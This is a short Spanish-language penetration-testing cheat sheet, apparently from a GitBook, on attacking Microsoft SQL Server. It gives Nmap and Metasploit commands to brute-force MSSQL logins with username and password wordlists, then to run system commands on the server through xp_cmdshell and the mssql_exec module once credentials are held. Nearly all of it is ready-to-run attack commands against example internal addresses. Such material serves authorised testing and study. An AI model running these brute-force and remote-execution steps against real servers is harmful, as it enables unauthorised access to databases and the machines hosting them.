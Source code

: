 # MsSQL

## Fuerza Bruta

### Nmap

Podemos hacer uso de Nmap para hacerle fuerza bruta a este servicio:

```bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Para hacer fuerza bruta usaremos los siguientes modulos:

<pre class="language-perl"><code class="lang-perl"><strong>msfconsole
</strong><strong>
</strong><strong>use auxiliary/scanner/mssql/mssql_login
</strong>
set RHOSTS 192.168.1.1

set USER_FILE /root/Desktop/wordlist/common_users.txt

set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt

set VERBOSE false

exploit
</code></pre>

<figure><img src="../../.gitbook/assets/image (96).png" alt=""><figcaption></figcaption></figure>

## RCE

### Nmap

Podemos hacer un RCE si tenemos credenciales de acceso y los permisos necesarios. Usaremos un script de nmap para ello:

{% hint style="success" %}
Podemos hacer uso del comando "type" para leer archivos de la maquina
{% endhint %}

```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=usuario,mssql.password=contraseña,ms-sql-xp-cmdshell.cmd="whoami" 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Otra de las opciones es hacer el RCE mediante este modulo de metasploit:

```perl
msfconsole

use auxiliary/admin/mssql/mssql_exec

set RHOSTS 10.0.20.101

set CMD whoami

exploit
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>
